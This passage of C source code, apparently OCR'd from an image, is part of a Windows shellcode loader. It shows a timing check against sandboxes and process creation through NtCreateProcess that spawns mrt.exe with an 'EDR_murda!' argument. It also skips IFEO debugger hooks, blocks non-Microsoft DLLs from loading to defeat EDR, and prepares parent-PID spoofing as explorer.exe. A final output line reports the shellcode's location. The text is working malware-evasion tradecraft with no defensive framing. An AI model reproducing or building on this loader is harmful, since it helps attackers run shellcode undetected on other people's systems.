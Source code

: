 ```
	if ((DWORD)(_T1 - _T0) < dwMilliSeconds)
		return FALSE;


	/* LOADER */

	// NtCreateProcess Definition

	// Path to the image file from which the process will be created
	UNICODE_STRING NtImagePath, Params, ImagePath;
	RtlInitUnicodeString(&ImagePath, (PWSTR)L"C:\\Windows\\System32\\mrt.exe");

	RtlInitUnicodeString(&NtImagePath, (PWSTR)L"\\??\\C:\\Windows\\System32\\mrt.exe");
	RtlInitUnicodeString(&Params, (PWSTR)L"\"C:\\WINDOWS\\SYSTEM32\\mrt.exe\" /i EDR_murda!");
	// Create the process parameters
	PRTL_USER_PROCESS_PARAMETERS ProcessParameters = NULL;
	RtlCreateProcessParametersEx(&ProcessParameters, &ImagePath, NULL, NULL, &Params, NULL, NULL, NULL, NULL, NULL, RTL_USER_PROCESS_PARAMETERS_NORMALIZED);

	// Initialize the PS_CREATE_INFO structure
	PS_CREATE_INFO CreateInfo = { 0 };
	CreateInfo.Size = sizeof(CreateInfo);
	CreateInfo.State = PsCreateInitialState;

	//Skip Image File Execution Options debugger
	CreateInfo.InitState.u1.InitFlags = PsSkipIFEODebugger;

	OBJECT_ATTRIBUTES objAttr = { sizeof(OBJECT_ATTRIBUTES)};
	PPS_STD_HANDLE_INFO stdHandleInfo = (PPS_STD_HANDLE_INFO)RtlAllocateHeap(RtlProcessHeap(), HEAP_ZERO_MEMORY, sizeof(PS_STD_HANDLE_INFO));
	PCLIENT_ID clientId = (PCLIENT_ID)RtlAllocateHeap(RtlProcessHeap(), HEAP_ZERO_MEMORY, sizeof(PS_ATTRIBUTE));
	PSECTION_IMAGE_INFORMATION SecImgInfo = (PSECTION_IMAGE_INFORMATION)RtlAllocateHeap(RtlProcessHeap(), HEAP_ZERO_MEMORY, sizeof(SECTION_IMAGE_INFORMATION));
	PPS_ATTRIBUTE_LIST AttributeList = (PS_ATTRIBUTE_LIST*)RtlAllocateHeap(RtlProcessHeap(), HEAP_ZERO_MEMORY, sizeof(PS_ATTRIBUTE_LIST));

	// Create necessary attributes
	AttributeList->TotalLength = sizeof(PS_ATTRIBUTE_LIST);
	AttributeList->Attributes[0].Attribute = PS_ATTRIBUTE_CLIENT_ID;
	AttributeList->Attributes[0].Size = sizeof(CLIENT_ID);
	AttributeList->Attributes[0].ValuePtr = clientId;

	AttributeList->Attributes[1].Attribute = PS_ATTRIBUTE_IMAGE_INFO;
	AttributeList->Attributes[1].Size = sizeof(SECTION_IMAGE_INFORMATION);
	AttributeList->Attributes[1].ValuePtr = SecImgInfo;

	AttributeList->Attributes[2].Attribute = PS_ATTRIBUTE_IMAGE_NAME;
	AttributeList->Attributes[2].Size = NtImagePath.Length;
	AttributeList->Attributes[2].ValuePtr = NtImagePath.Buffer;

	AttributeList->Attributes[3].Attribute = PS_ATTRIBUTE_STD_HANDLE_INFO;
	AttributeList->Attributes[3].Size = sizeof(PS_STD_HANDLE_INFO);
	AttributeList->Attributes[3].ValuePtr = stdHandleInfo;

	DWORD64 policy = PROCESS_CREATION_MITIGATION_POLICY_BLOCK_NON_MICROSOFT_BINARIES_ALWAYS_ON;

	// Add process mitigation attribute
	AttributeList->Attributes[4].Attribute = PS_ATTRIBUTE_MITIGATION_OPTIONS;
	AttributeList->Attributes[4].Size = sizeof(DWORD64);
	AttributeList->Attributes[4].ValuePtr = &policy;

	// Spoof Parent Process Id as explorer.exe
```

[+]: Shellcode located at c7160